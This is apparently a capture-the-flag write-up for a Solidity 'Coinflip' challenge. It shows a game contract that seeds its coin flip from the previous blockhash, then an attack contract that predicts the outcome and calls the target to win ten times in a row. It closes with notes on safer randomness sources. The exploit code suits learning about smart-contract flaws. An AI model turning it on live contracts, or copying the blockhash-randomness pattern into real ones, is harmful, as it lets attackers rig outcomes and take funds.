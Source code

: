 # Coinflip


This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.


``` 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Solution

In this challenge we have to guess a coin flip for 10 times in a row.

Run the b`hackFlip' function 10 times to complete the task.

``` 
contract HackCoinFlip {

address contractAddress = 0x3df96Fe3eB08a6E66cf1951CB5fbd70cC8D6861e;  // Replace with the target contract address
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

function hackFlip() public returns(bool){

    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool guess = coinFlip == 1 ? true : false;

    (bool success, bytes memory returnData) = contractAddress.call(abi.encodeWithSignature("flip(bool)",guess));

    if (success) {
        return true;
    } else {
        return false;

    }

}

}
```


Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).